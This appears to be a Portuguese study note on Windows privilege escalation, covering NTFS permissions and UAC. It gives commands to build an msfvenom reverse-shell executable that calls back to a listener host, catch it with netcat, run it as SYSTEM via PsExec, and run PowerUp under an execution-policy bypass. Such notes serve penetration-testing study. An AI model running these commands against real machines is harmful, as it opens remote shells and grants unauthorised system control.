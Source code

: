 # Windows PrivEsc

## File System

O sistema de arquivo usado nas versões modernas do Windows é o **New Technology File System** or simplesmente **NTFS**.

Antes do NTFS, era utilizado o **FAT16/32** e **HPFS**.

As permissões que existem no NTFS podem ser vistas em **Propriedades->Security->Group or User**, elas são :

1. Full control
2. Modify
3. Read & Execute
4. List folder contents
5. Read
6. Write

## UAC

O **User Account Control** é o que permite que um usuário com privilégios de Local Administrator não logue à máquina utilizando todo esse privilégio. O UAC apenas cede os privilégios admin quando o usuário necessita executar um programa como admin.

O UAC pode ser alterado e até mesmo desativado a partir do USER ACCOUNT CONTROL SETTINGS ou com o comando ` UserAccountControlSettings.exe`

## Gaining Shell

### Rev Shell

Existem diversas maneiras de ganhar um reverse shell no windows, como por exemplo com msfvenom

1. Gerar o Payload

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe`

2. Utilizar Netcat para ouvir uma conexão

`nc -nlvp 53`

3. Copiar e executar o payload no Windows

`copy \\192.168.0.33\tools\reverse.exe .`

4. Executar o reverse.exe

## ADMIN -> System

Para escalar de um admin para um full system privileges user, podemos utilizar o PsExec tool do Windows Sysinternals. [Download aqui](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

`.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe

## Tools

### winPEAS

A ferramenta que parece ser a melhor mantida em ver misconfigs. Por isso a ideia é tê-la como main tool

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

1. Antes de rodar adicionar a registry key para vermos as misconfigs em cores 

`reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1`

2. Reabrir o terminal e executar o comando

`.\winPEASany.exe --help`

### Seatbelt

Ferramente de Enumeration : https://github.com/GhostPack/Seatbelt

`.\Seatbelt.exe`

### PowerUp

PowerUp é uma ferramenta que acha misconfigurations que podem resultar em privilege escalation. [Link](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

1. Precisamos abrir o Power Shell

`powershell -exec bypass`

2. Executar o PowerUp

`. .\PowerUp.ps1`

3. Fazer os Checks

`Invoke-AllChecks`